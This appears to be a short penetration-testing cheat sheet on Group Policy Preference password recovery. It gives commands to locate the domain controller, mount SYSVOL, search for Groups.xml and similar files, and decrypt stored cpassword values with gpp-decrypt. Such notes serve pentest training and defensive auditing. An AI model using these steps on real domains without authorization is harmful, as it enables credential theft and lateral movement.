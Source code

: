 # Group Policy Preference

## Overview

* ff the machine belongs to a domain and your user has access to System Volume Information there might be some sensitive files there.
* first we need to map/mount that drive
* in order to do that we need to know the IP-address of the domain controller
* we can just look in the environment-variables

## Output Environment Variables

```bash
set
```

## Look for the Following

```bash
LOGONSERVER=\\NAMEOFSERVER
USERDNSDOMAIN=WHATEVER.LOCAL
```

## Look Up IP Address

```bash
nslookup nameofserver.whatever.local
```

## It Will Output Something Like This

```bash
Address:  192.168.1.101
```

## Now Mount it

```bash
net use z: \\192.168.1.101\SYSVOL
```

## Then Enter it

```bash
z:
```

## Now Search for the groups.xml File

```bash
dir Groups.xml /s
```

* if we find the file with a password in it, we can decrypt it like this in Kali

```bash
gpp-decrypt encryptedpassword
```

```bash
#thest all may also have cpassword set
Services\Services.xml: Element-Specific Attributes
ScheduledTasks\ScheduledTasks.xml: Task Inner Element, TaskV2 Inner Element,
ImmediateTaskV2 Inner Element
Printers\Printers.xml: SharedPrinter Element
Drives\Drives.xml: Element-Specific Attributes
DataSources\DataSources.xml: Element-Specific Attributes
```

